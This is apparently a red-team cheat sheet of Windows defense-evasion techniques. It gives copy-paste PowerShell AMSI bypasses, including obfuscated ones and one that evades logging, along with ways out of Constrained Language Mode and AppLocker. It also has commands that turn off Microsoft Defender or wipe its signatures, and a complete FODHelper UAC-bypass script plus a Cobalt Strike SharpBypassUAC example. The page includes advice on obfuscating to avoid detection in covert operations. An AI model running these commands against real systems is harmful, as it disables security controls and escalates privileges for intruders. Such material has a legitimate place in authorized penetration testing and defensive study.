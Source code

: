 ## AMSI
### PowerShell AMSI Bypass

Patching AMSI will help bypass AV warnings triggered when executing PowerShell scripts that are marked as malicious (such as PowerView). Do not use as-is in covert operations, as they will get flagged 🚩. Obfuscate, or even better, eliminate the need for an AMSI bypass altogether by altering your scripts to beat signature-based detection.

- ‘Plain’ AMSI bypass:

	```powershell
	[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
	```

- Obfuscation example for copy-paste purposes:

	```powershell
	sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
	```

- Another bypass, which is not detected by PowerShell autologging:

	```powershell
	[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
	```

> More bypasses [here](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell). For obfuscation, check [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation), or get a pre-generated obfuscated version at [amsi.fail](https://amsi.fail/).

***

## Powershell CLM
### Enumeration
Sometimes you may find yourself in a PowerShell session that enforces Constrained Language Mode (CLM). This is very often the case when paired with AppLocker (see above).

You can identify you’re in constrained language mode by polling the following variable to get the current language mode. It will say `FullLanguage` for an unrestricted session, and `ConstrainedLanguage` for CLM. There are other language modes which I will not go into here.

```powershell
$ExecutionContext.SessionState.LanguageMode
```

### Bypasses
The constraints posed by CLM will block many of your exploitations attempts. One quick and dirty bypass is to use in-line functions, which sometimes works - if e.g. `whoami` is blocked, try the following:

```powershell
&{whoami}
```
- Use Powershell V2, If available
- Invoke powershell without using powershell.exe
	- [p3nt4/PowerShdll: Run PowerShell with rundll32. Bypass software restrictions. (github.com)](https://github.com/p3nt4/PowerShdll)

***


## AppLocker
### Enumeration
Identify AppLocker policy. Look for exempted binaries or paths to bypass.

```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

### Bypasses
Some high-level bypass techniques:

-   Use [LOLBAS](https://lolbas-project.github.io/) if only (Microsoft-)signed binaries are allowed.
-   If binaries from `C:\Windows` are allowed, try dropping your binaries to `C:\Windows\Temp` or `C:\Windows\Tasks`. If there are no writable subdirectories but writable files exist in this directory tree, write your file to an alternate data stream (e.g. a JScript script) and execute it from there.
-   Wrap your binaries in a DLL file and execute them with `rundll32` to bypass executable rules. If binaries like Python are allowed, use that. If that doesn’t work, try other techniques such as wrapping JScript in a HTA file or running XSL files with `wmic`.
- Download signed executables with known DLL-Side-Loading/PATH Hijacking vulns. Copy them and the forged DLLs to get code execution. [DLL Side-loading Appverif.exe – Fat Rodzianko](https://fatrodzianko.com/2020/02/15/dll-side-loading-appverif-exe/)

***


## Defender
### Disable defender

👀🚩

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true

Set-MpPreference -DisableIOAVProtection $true
```

Or leave Defender enabled, and just remove the signatures from it.

```powershell
"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```
***
### UAC Bypass

Using [SharpBypassUAC](https://github.com/FatRodzianko/SharpBypassUAC).

```bash
# Generate EncodedCommand
echo -n 'cmd /c start rundll32 c:\\users\\public\\beacon.dll,Update' | base64

# Use SharpBypassUAC e.g. from a CobaltStrike beacon
beacon> execute-assembly /opt/SharpBypassUAC/SharpBypassUAC.exe -b eventvwr -e Y21kIC9jIHN0YXJ0IHJ1bmRsbDMyIGM6XHVzZXJzXHB1YmxpY1xiZWFjb24uZGxsLFVwZGF0ZQ==
```

In some cases, you may get away better with running a manual UAC bypass, such as the FODHelper bypass which is quite simple to execute in PowerShell.

```powershell
# The command to execute in high integrity context
$cmd = "cmd /c start powershell.exe"
 
# Set the registry values
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $cmd -Force
 
# Trigger fodhelper to perform the bypass
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
 
# Clean registry
Start-Sleep 3
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```
